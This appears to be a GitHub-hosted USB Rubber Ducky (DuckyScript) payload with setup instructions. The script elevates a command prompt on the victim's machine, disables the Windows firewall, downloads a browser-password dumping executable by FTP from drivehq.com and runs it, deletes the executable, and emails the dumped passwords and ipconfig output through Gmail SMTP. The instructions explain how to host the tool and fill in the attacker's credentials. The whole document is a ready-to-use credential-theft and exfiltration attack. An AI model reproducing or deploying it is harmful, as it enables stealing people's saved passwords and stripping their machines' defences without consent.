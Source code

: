DELAY 800

GUI

DELAY 800

STRING Command Prompt

CTRL-SHIFT ENTER

DELAY 1000

ALT y

DELAY 1500

STRING mkdir C:\DuckyReport

ENTER

STRING netsh advfirewall set allprofiles state off

ENTER

STRING ipconfig > C:\DuckyReport\ipconfig.txt

ENTER

STRING cd C:\DuckyReport

ENTER

STRING ftp

ENTER

STRING open ftp.drivehq.com

ENTER

DELAY 2500

STRING YourDriveHQUsername

ENTER

DELAY 2500

STRING YourDriveHQPassword

ENTER

DELAY 2500

STRING get BPD.exe

ENTER

DELAY 8000

STRING close

ENTER

DELAY 800

STRING quit

ENTER

DELAY 800

STRING BPD.exe -f BPD.txt

ENTER

DELAY 2500

STRING del BPD.exe

ENTER

DELAY 800

STRING Exit

ENTER

DELAY 800

GUI

DELAY 1000

STRING Powershell

ENTER

DELAY 1000

STRING $emailSmtpServer = "smtp.gmail.com";$emailSmtpServerPort = "587";$emailSmtpUser = "yourgmailusername@gmail.com";$emailSmtpPass = "YourGmailPassword";$emailMessage = New-Object System.Net.Mail.MailMessage;$emailMessage.From = "DuckyScript Browser Passwords <YourEmailAddressHere@gmail.com>";$emailMessage.To.Add("EmailToSendTo@example.com");$emailMessage.Body = "See attachments";$SMTPClient = New-Object System.Net.Mail.SmtpClient( $emailSmtpServer , $emailSmtpServerPort );$SMTPClient.EnableSsl = $true;$SMTPClient.Credentials = New-Object System.Net.NetworkCredential( $emailSmtpUser , $emailSmtpPass );$attachment = "C:\DuckyReport\BPD.txt";$emailMessage.Attachments.Add($attachment);$attachment2 = "C:\DuckyReport\ipconfig.txt";$emailMessage.Attachments.Add($attachment2);$SMTPClient.Send($emailMessage);

ENTER

DELAY 5000

STRING exit

ENTER



#Instructions:
1. Create an free account at [https://www.drivehq.com/features/ftp.aspx](https://www.drivehq.com/features/ftp.aspx)
2. Download BPD.zip and extract it from [https://drive.google.com/file/d/0B8k1o3N-X4vZVjNwZm5ac2hZNFE/view?usp=sharing](https://drive.google.com/file/d/0B8k1o3N-X4vZVjNwZm5ac2hZNFE/view?usp=sharing)
3. Go to your account and upload BPD.exe to the root directory.
4. In the script please change the following to your information:
    On line 22 ```STRING YourDriveHQUsername``` change ___YourDriveHQUsername___ to your username for www.drivehq.com

    On line 25 ```STRING YourDriveHQPassword``` change ___YourDriveHQPassword___ to your password for www.drivehq.com

    On line 51 ```$emailSmtpUser = "yourgmailusername@gmail.com";``` This the account email used to send the email with 
        the passwords list. It is only set to use a gmail address. Change ___yourgmailusername@gmail.com___ to your email. 
        Leave the quotation marks on both sides there.

    On line 51 ```$emailSmtpPass = "YourGmailPassword";``` change ___YourGmailPassword___ to the password for your account 
        but leave the quotation marks on both sides there.

    On line 51 ```$emailMessage.From = "DuckyScript Browser Passwords <YourEmailAddressHere@gmail.com>";``` change 
        ___YourEmailAddressHere@gmail.com___ to your email address. Please leave the brackets on either side of the email 
        address.
    On line 51 ```$emailMessage.To.Add("EmailToSendTo@example.com");``` change ___EmailToSendTo@example.com___ to whatever 
        email you are sending the files to. Leave the quotation marks on both sides there.

5. Load the script on your USB RubberDucky and you are ready to do some reconnaissance.